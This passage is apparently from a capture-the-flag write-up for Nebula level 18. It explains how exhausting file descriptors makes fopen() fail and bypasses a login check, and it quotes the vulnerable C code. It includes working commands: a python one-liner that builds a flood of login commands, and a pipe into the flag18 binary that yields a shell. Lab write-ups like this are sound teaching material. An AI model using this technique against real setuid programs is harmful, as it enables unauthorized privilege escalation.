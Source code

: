 
#### The solution

All of this attacks are either not feasable or are hard to mount (especially the memory corruption attacks).
So after having spent some hours on this level18, I couldn't come up with a solution and looked on 
other writeups in the internet, where I found the solution at <http://louisrli.github.io/blog/2012/08/17/nebula2/#.Vh-KfR93lhE>.

The idea is to make `fopen()` fail. I saw earlier that the `globals.loggedin = 1;` is outside of the if statement
and that it would be executed when `fopen()` fails. But it didn't occur to me that `fopen()` will fail after
there are no more file descriptors left and that we can *actually open file descriptors in ./flag18* by sending
enough **login foo** commands. Fist check the soft limit of maximum open fds:

	:::bash
	level18@nebula:/home/flag18$ ulimit -Sn
	1024

Then create a file with 1025 'login' commands followd by a 'closelog' and 'shell' command. The closelog
will free one more filedescriptor such that the `execvp()` syscall will succeed.

	:::bash
	python -c 'open("/home/level18/flood", "w").write("login foo\n"*1025 + "closelog\n" + "shell\n")'

Then exploit the `./flag18` binary:

	:::bash
	cat ~/flood | ./flag18 --init-file /foo -d /dev/tty -vvvvv

Because `execve("/bin/sh", argv, envp);` will call the shell with all args supplied here, we need
a argument which ignores them (the job of `--init-file`).

This will yield a shell and we are done!

#### Sidenote

Actually the code is misleading. In assumed that every fd will be closed in the `login()` function:

	:::C
	void login(char *pw)
	{
	  FILE *fp;

	  fp = fopen(PWFILE, "r");
	  if(fp) {
	    char file[64];

	    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
	      dprintf("Unable to read password file %s\n", PWFILE);
	      return;
	    }
	    fclose(fp);
	    if(strcmp(pw, file) != 0) return;    
	  }
	  dprintf("logged in successfully (with%s password file)\n", 
	    fp == NULL ? "out" : "");
	  